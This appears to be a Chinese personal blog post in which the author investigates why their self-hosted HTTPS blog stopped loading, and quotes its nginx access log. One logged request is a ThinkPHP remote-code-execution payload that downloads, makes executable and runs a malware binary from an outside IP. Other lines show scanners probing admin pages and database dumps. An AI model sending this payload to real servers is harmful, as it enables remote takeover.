 ## 背景介绍

之前在自己的服务器上架设了[博客](https://zhiyulife.pp.ua)并发布到了公网，考虑到安全性还特意加了HTTPS支持。稳定运行一段时间之后前两个星期忽然就无法访问了，以下是我的破案纪实。

## 案发现场：博客无法访问

之前搭建的博客突然不能访问了，浏览器提示**重定向次数过多**，我就有了不好的预感，去服务器上看扫了一眼`nginx`访问日志，果然发现了一点猫腻。

```
41.230.21.146 - - [26/Jul/2020:04:06:50 +0800] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.95.168.230/taevimncorufglbzhwxqpdkjs/Meth.x86 -O thinkphp ; chmod 777 thinkphp ; ./thinkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1" 400 157 "-" "Uirusu/2.0"
93.171.157.190 - - [26/Jul/2020:04:28:29 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36"
162.243.128.166 - - [26/Jul/2020:05:10:37 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 zgrab/0.x"
177.96.170.216 - - [26/Jul/2020:05:21:32 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7"
35.220.228.17 - - [26/Jul/2020:05:33:38 +0800] "POST /spywall/timeConfig.php HTTP/1.1" 400 157 "-" "XTC"
46.105.117.7 - - [26/Jul/2020:05:36:30 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 zgrab/0.x"
141.101.105.202 - - [26/Jul/2020:05:36:30 +0800] "GET / HTTP/1.1" 301 169 "http://95.179.179.26:80/" "Mozilla/5.0 zgrab/0.x"
141.101.105.202 - - [26/Jul/2020:05:36:30 +0800] "GET / HTTP/1.1" 301 169 "https://zhiyulife.pp.ua/" "Mozilla/5.0 zgrab/0.x"
151.235.230.43 - - [26/Jul/2020:05:45:03 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7"
46.105.117.7 - - [26/Jul/2020:05:49:05 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 zgrab/0.x"
172.69.54.103 - - [26/Jul/2020:05:49:05 +0800] "GET / HTTP/1.1" 301 169 "https://95.179.179.26:443/" "Mozilla/5.0 zgrab/0.x"
172.69.54.103 - - [26/Jul/2020:05:49:05 +0800] "GET / HTTP/1.1" 301 169 "https://zhiyulife.pp.ua/" "Mozilla/5.0 zgrab/0.x"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /manager/top.asp HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /index.php/_login/in HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /11.txt HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /db/admin_yly.sql HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /cgi-bin HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /js/preload/example.txt HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.33.237 - - [26/Jul/2020:05:57:09 +0800] "GET /db/admin_yly.sql HTTP/1.1" 301 169 "http://95.179.179.26/db/admin_yly.sql" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
```